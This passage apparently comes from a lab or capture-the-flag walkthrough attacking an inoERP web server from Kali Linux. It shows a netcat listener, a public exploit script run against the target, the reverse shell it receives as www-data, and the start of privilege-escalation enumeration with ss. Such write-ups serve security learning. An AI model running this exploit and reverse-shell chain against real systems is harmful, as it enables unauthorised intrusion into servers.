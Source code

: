 ```
root@kali:~# nc -nvlp 80
Listening on [any] 80 ...
```

We execute our exploit.

```
kali@kali:~$ python 48946 http://192.168.100.72/inoerp 192.168.100.44 80
```

We receive a response in our listener.

```
root@kali:~# nc -nvlp 80
listening on [any] 80 ...
connect to [192.168.100.44] from (UNKNOWN) [192.168.100.72] 58562
bash: cannot set terminal process group (33996): Inappropriate ioctl for device
bash: no job control in this shell
...
www-data@erp:/var/www/html/inoerp/modules/sys/form_personalization$
```

## Privilege Escalation

During our enumeration we list sockets using the `ss` utility:

```
www-data@erp:/var/www/html/inoerp/modules/sys/form_personalization$ ss -antp
ss -antp                                                                                                                                                   
State     Recv-Q Send-Q           Local Address:Port               Peer Address:Port                                                                            Process                                                                                                                                               
LISTEN 0      80                   127.0.0.1:3306                  0.0.0.0:*                                                                                    
LISTEN 0      4096             127.0.0.53%lo:53                    0.0.0.0:*                                                                                    
LISTEN 0      128                    0.0.0.0:22                    0.0.0.0:*                                                                                    
LISTEN 0      4096                 127.0.0.1:8443                  0.0.0.0:*                                                                                    
ESTAB  0      0               192.168.100.72:22                 5.9.47.204:56603                                                                                
ESTAB  0      0               192.168.100.72:46962          192.168.100.44:80    users:(("ss",pid=245522,fd=2),("ss",pid=245522,fd=1),("ss",pid=245522,fd=0),("bash",pid=244997,fd=255),("bash",pid=244997,fd=2),("bash",pid=244997,fd=1),("bash",pid=244997,fd=0))
ESTAB  0      0               192.168.100.72:22                 5.9.47.204:65479                                                                                
LISTEN 0      511                          *:80                          *:*                                                                                    
LISTEN 0      128                       [::]:22                       [::]:*                                                                                    
ESTAB  0      0      [::ffff:192.168.100.72]:80    [::ffff:192.168.100.44]:39938  

```
